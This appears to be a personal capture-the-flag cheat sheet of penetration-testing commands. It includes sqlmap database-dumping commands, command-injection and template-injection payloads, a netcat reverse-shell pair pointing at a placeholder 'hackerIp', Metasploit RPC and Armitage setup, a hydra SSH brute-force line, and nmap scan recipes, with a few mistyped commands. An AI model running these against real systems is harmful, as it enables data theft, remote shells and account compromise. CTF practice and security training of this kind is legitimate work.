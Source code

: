 # ctf



sqlmap -u url --dbs --dump    //that's all


wireshark ====== ip.src==192.168.171.129   ------ ip.dst==== tcp.port===

wht hash ---- hash analyser


https://hashes.com/en/decrypt/hash



classic cyfer


https://dencode.com/en/


https://www.dcode.fr/monoalphabetic-substitution
********************


morse code from audio 


https://morsecode.world/international/decoder/audio-decoder-adaptive.html


code injection

"ls" && @.  change " by (`) altgr 7 
********
burp 
@.|ls||



https://cybertalents.com/challenges/web/big-number?fbclid=IwAR14gKbg32A4IwFcdsxVer1DNVJq7o4gOgiVOTPOw08H0dGGfarteYCMmsI



rapid7


${system('ls')}


run rpc/
msfrpcd -P mypassword -U myuser -t Basic -n -p 55553

then run armitage/
armitage

snoopy


locate filename



image:


file filename


strings 


binwolk filename






whatweb ip
joomscan
wpsscan


exploit Joomla! 3.7.0


cat 
vi :q!
vi :wq!

cp usr/bi/a b 


sqlmap -u url --dbs


sqlmap - u url --dbs blog --tables


sqlmap -u url --dbs blog --tables users --columns

sqlmap -u url -D database -T table --dump


sqlmap -u url -D database --dump-all --batch


sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=2 -D acuart -T users --dump-all -batch  -v 3



sqlmap -u url --dbs --batch


sqlmap -u http://site-to-test.com/admin/index.php –data=”user=admin&password=admin” -p user


–data = POST data


sqlmap -r file.txt -p username


dirb url

netcat -lnvp 9191 


nc hackerIp 9191



https://resources.infosecinstitute.com/topic/important-sqlmap-commands/


Crowler:
sqlmap -u http://testphp.vulnweb.com/ -crawl=3


cp file newName ========= le nouveau local c'est ou tu est positionner 


https://www.kali.org/tools/webshells/



NMAP


nmap -sV -O 192.168.100.101  ---> service version  - operating sys


nmap -T4 -A -v 192.168.100.101   -->Intense scan


nmap -sS -sU -T4 -A -v    -->Intense scan plus UDP


nmap -T4 -A -v -Pn   --->Intense scan, no ping


nmap -sn    ---> Ping scan


nmap -T4 -F   -->quiq scan


nmap -sV -T4 -O -F --version-light   --> quiq scan plus


nmap -sn --traceroute -->quiq traceroute


nmap -sS -sU -T4 -A -v -PE -PP -PS80,443 -PA3389 -PU40125 -PY -g 53 --script "default or (discovery and safe)"   -->slow comprehensive scan



BRUTFORCE 


hydra -l root -p rockyou.txt -u  -s 22  192.168.160.181 ssh 


https://github.com/jeanphorn/wordlist/blob/master/usernames.txt


cryptography


https://gchq.github.io/CyberChef/


http://www.jsfuck.com/#


https://morsecode.world/international/translator.html


ls -lh /usr/share/wordlists/



https://www.kali.org/tools/wordlists/
